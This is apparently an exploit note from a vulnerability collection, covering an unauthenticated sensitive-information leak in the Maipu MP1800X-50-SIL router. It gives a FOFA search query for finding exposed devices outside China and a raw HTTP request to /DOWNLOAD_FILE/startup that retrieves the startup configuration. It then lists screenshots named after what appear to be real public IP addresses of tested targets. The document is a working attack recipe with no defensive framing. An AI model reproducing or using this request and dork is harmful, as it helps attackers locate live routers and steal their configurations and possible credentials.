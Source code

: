 # Maipu(迈普)-MP1800X-50-SIL
敏感信息泄露漏洞 Sensitive Information Leak


## FOFA Dork
```
server=="Maipu-Webs" && country!="CN"
```


## Request
```
GET /DOWNLOAD_FILE/startup HTTP/1.0
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.57 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```



## Test Case
![1](./103.3.41.57.png)
![2](./125.17.233.222.png)
![3](./182.78.169.252.png)
![4](./203.145.169.65.png)
![5](./122.185.70.177.png)
![6](./182.76.59.129.png)

